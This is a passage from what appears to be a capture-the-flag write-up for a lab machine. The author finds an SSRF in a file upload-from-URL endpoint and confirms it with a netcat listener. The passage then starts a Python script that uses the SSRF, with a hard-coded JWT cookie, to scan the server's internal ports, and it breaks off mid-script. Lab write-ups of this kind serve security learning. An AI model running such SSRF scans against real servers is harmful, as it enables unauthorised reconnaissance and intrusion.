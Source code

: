If you try to upload any file it is uploaded with a random name and no extension to `/api/uploads`.

![](/assets/blog/Rabbit-Store/file.png)

The upload from URL function sounds like a typical SSRF vulnerability. I tried connecting back to myself.

```terminal
$ nc -lvnp 9001  
listening on [any] 9001 ...
connect to [10.14.78.229] from (UNKNOWN) [10.10.247.179] 40534
GET / HTTP/1.1
Accept: */*
User-Agent: node-fetch/1.0 (+https://github.com/bitinn/node-fetch)
Accept-Encoding: gzip,deflate
Host: 10.14.78.229:9001
Connection: close
```

We see, the server uses `node-fetch`, to connect back to us, this SSRF by itself can not be leveraged, because `node-fetch` only accepts `http` and `https` requests. Although the limitations, we can use this SSRF as a port scanner for internal ports of the server.

I made this small program to check each port.
```python
import requests
import sys
from concurrent.futures import ThreadPoolExecutor

url = "http://storage.cloudsite.thm/api/store-url"
cookies = {
    "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImFkbWluQG1haWwuY29tIiwic3Vic2NyaXB0aW9uIjoiYWN0aXZlIiwiaWF0IjoxNzQwMjM4MzgwLCJleHAiOjE3NDAyNDE5ODB9.-y0m1w6kLPyRi5XsJp9_AcKGm4r7Hm_RPyikShziqeE"
}

def fuzz_dir(fuzz):
    data = {"url": f"http://127.0.0.1:{fuzz}/"}
    response = requests.post(url, json=data, cookies=cookies)
    
```